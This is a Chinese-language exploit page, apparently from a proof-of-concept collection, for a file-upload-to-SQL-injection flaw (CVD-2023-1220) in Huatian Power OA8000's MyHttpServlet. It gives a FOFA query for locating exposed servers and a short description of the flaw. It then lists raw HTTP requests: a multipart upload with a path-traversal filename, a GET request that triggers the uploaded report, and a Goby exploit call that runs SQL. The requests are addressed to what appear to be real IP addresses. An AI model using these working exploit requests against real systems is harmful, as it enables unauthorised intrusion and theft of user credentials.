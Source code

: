# 华天动力-OA8000 MyHttpServlet 文件 reportFile 参数文件上传漏洞导致sql注入 CVD-2023-1220

    ## fofa

```
body="/OAapp/WebObjects/OAapp.woa"
```

华天动力OA是一款将先进的管理思想、 管理模式和软件技术、网络技术相结合，为用户提供了低成本、 高效能的协同办公和管理平台。华天动力OA MyHttpServlet 存在任意文件上传漏洞，攻击者可上传恶意的raq文件并执行raq文件中的任意sql语句，获取用户账号密码等敏感信息。



## poc

### 上传req

```
POST /OAapp/MyHttpServlet HTTP/1.1
Host: 101.200.223.75
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=9b0af0d79eaea67c3aa1889b0b43a50a
Accept-Encoding: gzip
Content-Length: 181

--9b0af0d79eaea67c3aa1889b0b43a50a
Content-Disposition: form-data; name="file"; filename="\\Temp\\../../../report/reportFiles/55cBED.jpg"

RQQR
--9b0af0d79eaea67c3aa1889b0b43a50a--
```

### 访问

```
GET /report/reportJsp/showHTReport.jsp?reportFile=55cBED.jpg HTTP/1.1
Host: 101.200.223.75
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip


```



## gobyexp

```
POST /api/v1/debugExp HTTP/1.1
Content-Type: application/json;charset=UTF-8
Authorization: Basic dXNlcjpwYXNz
host: 82.156.29.211:8365
Connection: close
Content-Length: 94

{"hostinfo":"http://101.200.223.75","vulfile":"CVD-2023-1220.go","expparams":{"sql":"user()"}}
```

